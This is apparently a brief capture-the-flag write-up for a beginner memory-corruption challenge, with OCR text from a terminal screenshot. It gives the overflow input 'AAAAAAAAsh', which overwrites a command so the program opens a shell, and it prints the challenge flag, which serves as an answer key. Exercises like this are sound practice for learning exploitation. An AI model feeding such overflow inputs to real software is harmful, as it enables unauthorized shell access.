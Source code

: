 # Easy pwn
> Easy memory corruption challenge.

## About the Challenge
We are given a file (You can get the file [here](ez_pwn.zip))

## How to Solve?
Input `AAAAAAAAsh` to popup a shell, and then go to `.the_flag_is_in_here` directory and read the flag by running `cat flag.txt` command


[Image extracted text: rootadaffainfo:~#
nc
pwn.bbctf
fluxus
co
in 4001
Hil
would
you like
me to
ls the
current directory?
AAAAAAAAsh
Ok, here
ya go!
cd
the_flag_is
in_here
cat
txt
flag{4_CL4SsiC_M3mOry_cOrruptIoN}[]
flag]


```
flag{4_Cl45siC_M3mOry_COrrupt1ON}
```